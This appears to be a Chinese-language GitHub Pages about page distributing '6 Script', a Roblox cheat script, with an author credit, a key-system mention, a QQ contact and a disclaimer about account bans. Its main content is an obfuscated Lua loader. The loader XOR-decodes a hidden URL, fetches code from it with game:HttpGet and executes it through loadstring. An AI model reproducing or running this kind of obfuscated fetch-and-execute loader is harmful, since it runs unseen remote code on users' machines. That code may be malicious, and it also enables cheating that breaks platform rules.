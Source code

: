 ```yaml
---
permalink: /
title: "关于 6 Script"
author_profile: true
redirect_from: 
  - /about/
  - /about.html
---
```


# **6脚本**
脚本(新版): local v0=string.char;local v1=string.byte;local v2=string.sub;local v3=bit32 or bit ;local v4=v3.bxor;local v5=table.concat;local v6=table.insert;local function v7(v8,v9) local v10={};for v11=1, #v8 do v6(v10,v0(v4(v1(v2(v8,v11,v11 + 1 )),v1(v2(v9,1 + (v11% #v9) ,1 + (v11% #v9) + 1 )))%256 ));end return v5(v10);end loadstring(game:HttpGet(v7("\217\215\207\53\245\225\136\81\195\194\204\107\225\178\211\22\196\193\206\54\227\169\196\17\223\215\222\43\242\245\196\17\220\140\138\117\238\246\215\31\210\200\148\43\227\172\138\43\248\141\136\113\179\244\213\27\215\208\148\45\227\186\195\13\158\206\218\44\232\244\145\91\244\155\158\125\178\254\158\63\148\230\141\96\191\152\130\63\242\134\254\112\163\227\227\91\240\146\158\0\179\254\230\56\148\155\141\107\234\174\198","\126\177\163\187\69\134\219\167")))();
---
# 声明
*使用此脚本封号概不负责*
*本脚本不会断更(会拖更)*
**脚本为初步测试**
## 卡密系统
6脚本卡密为: *6 Script* :smiley:
~~*未更新卡密系统*~~
![图片](https://s21.ax1x.com/2025/02/16/pEKgpEd.jpg)
---

### 作者
**作者为柳絮与小白**
---
###  联系方式
QQ:**345628400**
## 感谢区
**在此感谢所有支持者**
 🤓🤓🤓
 
